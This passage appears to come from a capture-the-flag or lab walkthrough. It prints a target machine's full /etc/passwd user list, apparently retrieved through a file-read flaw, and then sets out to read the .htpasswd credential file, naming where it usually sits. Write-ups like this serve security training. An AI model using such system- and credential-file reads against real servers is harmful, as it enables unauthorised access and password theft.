








Well now that looks promising as now we have a user list.

```
<pre>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
albert:x:1000:1000:albert:/home/albert:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
david:x:1001:1002:,,,:/home/david:/bin/bash
</pre>
```

Finally, let's see if we can view the .htpasswd file. The .htpassd file that stores user names and their encrypted passwords, used for basic authentication. The .htpasswd file can be placed in any directory, but it's common to store it in a secure location, such as /etc/apache2/ or /usr/local/apache/conf/.
